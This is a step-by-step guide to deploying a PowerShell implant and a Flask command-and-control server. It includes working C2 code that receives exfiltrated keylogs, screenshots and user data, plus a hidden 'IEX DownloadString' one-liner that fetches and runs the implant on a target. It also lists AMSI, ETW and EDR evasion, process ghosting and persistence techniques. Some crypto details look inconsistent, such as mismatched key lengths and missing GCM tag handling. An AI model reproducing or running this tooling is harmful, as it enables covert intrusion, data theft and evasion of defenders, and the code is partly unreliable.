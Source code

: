 # 🔥 Red Team PowerShell Implant & C2 Deployment - Full Documentation

This document provides a step-by-step guide for setting up and using the PowerShell-based red team implant along with a custom C2 (Command & Control) server.

## 📌 Features of the Red Team Implant

✔ 🛡️ EDR Hook Unhooking (NtAllocateVirtualMemory, NtWriteVirtualMemory, NtQueueApcThread, NtLoadDriver)  
✔ ⚡ Windows Defender AMSI Hooking & Memory Patch (Bypasses AMSI & ETW Logging)  
✔ 💀 Kernel Direct Execution via NtAllocateVirtualMemory (Ensures Execution in All Environments)  
✔ 📦 Process Ghosting (Executes Shellcode in Deleted Files, Bypasses EDR)  
✔ 📡 AES-GCM Encrypted C2 Communication (Google Drive API / Slack API / Dropbox API)  
✔ 🖥 DLL Sideloading with Signed Microsoft Binaries (WerFault.exe, Consent.exe, WUDFHost.exe)  
✔ 🔐 Polyglot Shellcode Loader (Hides Payloads Inside PNG, PDF, DOCX, ZIP)  
✔ 💣 Multi-Persistence Techniques (WMI, Scheduled Tasks, COM Hijacking, Registry Hijacks)  

---

## 🚀 1. Deploying the C2 Server

The C2 Server is responsible for:  
✅ Receiving exfiltrated keylogs, screenshots, system data  
✅ Decrypting AES-GCM encrypted data from infected hosts  
✅ Hosting payloads for remote execution  
✅ Managing remote command execution on targets  

### 🛠 Step 1: Install Required Dependencies

On your Linux VPS, install the necessary dependencies:

```bash
sudo apt update && sudo apt install python3 python3-pip
pip3 install flask cryptography requests
```

### 🛠 Step 2: Deploy the Flask C2 Server

Create a directory for the C2 server:

```bash
mkdir ~/c2_server && cd ~/c2_server
nano c2.py
```

### 🔥 Step 3: Write the C2 Server Code

Copy and paste the following Python-based C2 Server into `c2.py`:

```python
from flask import Flask, request
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
import base64
import os

app = Flask(__name__)

# AES Key & IV (Must match the one in the PowerShell implant)
AES_KEY = b'16_byte_secure_key!'  # Must be exactly 16 bytes
AES_IV = b'16_byte_secure_iv!'  # Must be exactly 16 bytes

# Function to decrypt AES-GCM encrypted data
def decrypt_data(encrypted_data):
    try:
        encrypted_data = base64.b64decode(encrypted_data)
        cipher = Cipher(algorithms.AES(AES_KEY), modes.GCM(AES_IV))
        decryptor = cipher.decryptor()
        decrypted = decryptor.update(encrypted_data) + decryptor.finalize()
        return decrypted.decode()
    except Exception as e:
        return f"Decryption error: {str(e)}"

# Endpoint for Keylogs
@app.route('/keylogs', methods=['POST'])
def receive_keylogs():
    encrypted_data = request.data.decode()
    decrypted_data = decrypt_data(encrypted_data)
    with open("keylogs.txt", "a") as f:
        f.write(decrypted_data + "\n")
    return "Keylog received", 200

# Endpoint for Screenshots
@app.route('/screenshots', methods=['POST'])
def receive_screenshot():
    encrypted_data = request.data.decode()
    decrypted_data = decrypt_data(encrypted_data)
    with open("screenshots.txt", "a") as f:
        f.write(decrypted_data + "\n")
    return "Screenshot received", 200

# Endpoint for User Data Exfiltration
@app.route('/userdata', methods=['POST'])
def receive_userdata():
    encrypted_data = request.data.decode()
    decrypted_data = decrypt_data(encrypted_data)
    with open("userdata.txt", "a") as f:
        f.write(decrypted_data + "\n")
    return "Userdata received", 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080, debug=False)
```

### 🛠 Step 4: Start the C2 Server

Run the following command to start the C2:

```bash
python3 c2.py
```

📡 Your C2 server is now running on `http://your-server-ip:8080`

---

## 🚀 2. Deploying the PowerShell Implant

Once the C2 Server is running, deploy the PowerShell implant on the target machine.

### 📌 Step 1: Modify the PowerShell Implant

Open the PowerShell Implant script.  
Set the C2 URL:

```powershell
$C2_SERVER = "http://your-server-ip:8080"
```

Update the AES Key & IV to match the C2 Server:

```powershell
$AES_KEY = "16_byte_secure_key!"
$AES_IV = "16_byte_secure_iv!"
```

### 📌 Step 2: Transfer and Execute the Implant

1️⃣ Host the PowerShell script on a web server:

```bash
python3 -m http.server 8081
```

2️⃣ Download & Execute the Implant on the target machine:

```powershell
powershell -exec bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://your-server-ip:8081/implant.ps1')"
```

---

## 🚀 3. Using the C2 Server

### 📡 Live Data Monitoring

To monitor exfiltrated data, check the logs:

```bash
tail -f keylogs.txt screenshots.txt userdata.txt
```

### 📌 Execute Shellcode in Kernel Mode (NtAllocateVirtualMemory)

```powershell
Kernel-Execute -Payload ([Convert]::FromBase64String("your-kernel-shellcode-here"))
```

### 📌 Execute Process Ghosting to Evade EDR

```powershell
Process-Ghosting -ProcessPath "C:\Windows\System32\svchost.exe" -Payload ([Convert]::FromBase64String("your-shellcode-here"))
Process-Ghosting -ProcessPath "C:\Windows\explorer.exe" -Payload ([Convert]::FromBase64String("your-shellcode-here"))
```

---

## 🔥 Summary of Features

✔ EDR Hook Unhooking (NtAllocateVirtualMemory, NtWriteVirtualMemory, NtQueueApcThread, NtLoadDriver)  
✔ Kernel Direct Execution via NtAllocateVirtualMemory (Ensures Execution in All Environments)  
✔ Process Ghosting (Executes Shellcode in Deleted Files, Bypasses EDR)  
✔ Windows Defender AMSI Hooking & Memory Patch  
✔ AES-GCM Encrypted C2 Communication via Google Drive API  
✔ Multi-Persistence (WMI, Scheduled Tasks, Registry Hijacking)  
